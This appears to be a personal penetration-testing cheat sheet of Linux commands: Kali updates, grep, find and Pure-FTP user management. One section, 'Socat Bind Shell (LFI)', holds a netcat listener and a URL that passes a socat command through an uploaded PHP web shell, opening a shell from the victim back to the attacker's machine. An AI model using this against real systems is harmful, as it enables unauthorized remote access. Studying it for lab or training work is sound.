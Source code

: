 ```yaml
---
title: Linux Commands
layout: default
has_children: true
has_toc: false
published: false
nav_order: 1
parent: Cheat Sheets
---
```


# Helpful Linux Commands
## Kali Maintenance
Check current Kali Linux Version (Compare with release history here: https://www.kali.org/releases/)
```bash
hostnamectl
```
Update core and applications (more frequently):
```bash
sudo apt update && sudo apt upgrade -y && sudo apt autoremove && sudo apt autoclean
```
Update distribution (less frequently):
```bash
sudo apt dist-upgrade -y
```
## Grep
[Reference](https://linuxize.com/post/grep-exclude/)
Search multiple files for specific keywords. Note that 'access-logs' here is the folder in the current directory I wanted to search through. `r=recursive`, `i=ignore case sensitivity`
```bash
grep -ir 'keyword' 'access-logs'
```

Exclude lines w/ certain strings. In this example, exclude any line containing 'nologin' in the file /etc/passwd':
```bash
grep -wv nologin /etc/passwd
```
To display only the lines that do not match a search pattern, use the `-v` ( or `--invert-match`) option.
The `-w` option tells `grep` to return only those lines where the specified string is a whole word (enclosed by non-word characters).

## find
*Best Solution*
This is pulling files *and* directories *and* discarding any 'permission denieds'
```bash
find /* 2>/dev/null | grep "keyword"
```
>I've had better luck lately with:
```bash
find / -name impacket
```
>You can also specify folder like:
```bash
find /etc -name hosts
```

>/* searches the whole box for files with "keyword" (not only that, but also searches for the keyword inside of files that it can read)

```bash
find /* | grep "keyword" 
```
## Socat Bind Shell (LFI)
Start listener on attacking machine:
```
nc -nvlp 60000
```
Input the following into the victim machine broswer (assuming we've uploaded the appropriate php cmd file)
```
http://192.168.122.52/cmd.php?&cmd=socat%20exec:%27bash%20-li%27,pty,stderr,setsid,sigint,sane%20tcp:192.168.119.122:60000
```
## Pure-FTP 
Add new Pure FTP User:
```
sudo pure-pw useradd username -u ftpuser -d /ftphome
sudo pure-pw mkdb
```

Restart Pure-FTP after updating the user database:
```bash
sudo pure-pw mkdb && service pure-ftpd restart
```

Change a Pure-FTP User's Password:
```
sudo pure-pw passwd {username}
[ENTER NEW PASSWORD WHEN PROMPTED x 2]
sudo pure-pw mkdb
sudo service pure-ftpd restart
```